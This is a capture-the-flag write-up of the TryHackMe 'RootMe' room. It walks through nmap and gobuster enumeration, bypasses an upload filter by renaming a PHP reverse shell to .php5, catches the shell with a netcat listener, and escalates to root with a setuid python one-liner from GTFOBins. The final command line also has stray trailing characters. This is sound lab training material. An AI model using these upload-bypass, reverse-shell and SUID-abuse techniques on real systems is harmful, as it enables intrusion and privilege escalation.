 # RootMe
> A ctf for beginners, can you root me?

[RootMe](https://www.tryhackme.com/room/rrootme) is created by
[ReddyyZ](https://www.tryhackme.com/p/ReddyyZ).

## Reconnaissance

Results of nmap scan:

```
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times
will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-22 19:33 EDT
Nmap scan report for 10.10.11.81
Host is up (0.20s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol
2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at
https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.06 seconds
```

We see that port 22 and 80 are open. The web server is running Apache version
2.4.29. 

I navigated to the web server in my browser and did not find anything
interesting in the source code or within robots.txt file. Time to run gobuster
to search for hidden directories.

```
$ gobuster dir -u http://10.10.11.81 -w /usr/share/wordlists/dirb/common.txt|
tee gobuster_scan.txt         1 ⨯
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.81
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/03/22 19:36:03 Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 276]
/.hta                 (Status: 403) [Size: 276]
/.htaccess            (Status: 403) [Size: 276]
/css                  (Status: 301) [Size: 308] [--> http://10.10.11.81/css/]
/index.php            (Status: 200) [Size: 616]                              
/js                   (Status: 301) [Size: 307] [--> http://10.10.11.81/js/] 
/panel                (Status: 301) [Size: 310] [--> http://10.10.11.81/panel/]
/server-status        (Status: 403) [Size: 276]                                
/uploads              (Status: 301) [Size: 312] [--> http://10.10.11.81/uploads/]
                                                                                 
===============================================================
2021/03/22 19:37:38 Finished
===============================================================
```

## Exploitation

From the gobuster scan we see there are a /panel and /uploads folder. We can
upload files in /panel and they will be saved in /uploads. Meaning, we can
easily get a reverse shell!

I tried uploading a .pl (perl) and .php reverse shell, but the former did not
run and the latter is blocked by a blacklist filter.

After reading this post [on bypassing file upload
restrictions](https://null-byte.wonderhowto.com/how-to/bypass-file-upload-restrictions-web-apps-get-shell-0323454/)
I found a solution.

I edited my php reverse shell to have a .php5 file extension and was able to
get a reverse shell.

```
$ mv php-revshell.php php-revshell.php5
```

```
$ nc -nlvp 4444                                      
listening on [any] 4444 ...
connect to [10.2.8.243] from (UNKNOWN) [10.10.11.81] 35172
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020
x86_64 x86_64 x86_64 GNU/Linux
 23:52:35 up 24 min,  0 users,  load average: 0.00, 0.03, 0.23
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

## Finding user.txt

From here is was simple to find the user flag:

```
$ find / -iname "user.txt" 2>/dev/null 
/var/www/user.txt
$ cd /var/www
$ ls -la
total 20
drwxr-xr-x  3 www-data www-data 4096 Aug  4  2020 .
drwxr-xr-x 14 root     root     4096 Aug  4  2020 ..
-rw-------  1 www-data www-data  129 Aug  4  2020 .bash_history
drwxr-xr-x  6 www-data www-data 4096 Aug  4  2020 html
-rw-r--r--  1 www-data www-data   21 Aug  4  2020 user.txt
$ cat user.txt
XXX-REDACTED-XXX
```

## Privilege Escalation

First I [stabilized my reverse
shell](https://jasonturley.xyz/how-to-stabilize-a-reverse-shell/) so it's not as wonky.

Search for files that have the setuid bit set:

```
www-data@rootme:/var/www$ find / -perm -u=s -type f 2>/dev/null
```

There's a ton of output, but the file that immediately stood out to me was
/usr/bin/python.

### Finding root.txt

Using [this GTFObin
syntax](https://gtfobins.github.io/gtfobins/python/#file-read) we can read the
root file!

```
www-data@rootme:/var/www$ python -c 'print(open("/root/root.txt").read())'')""))'
```
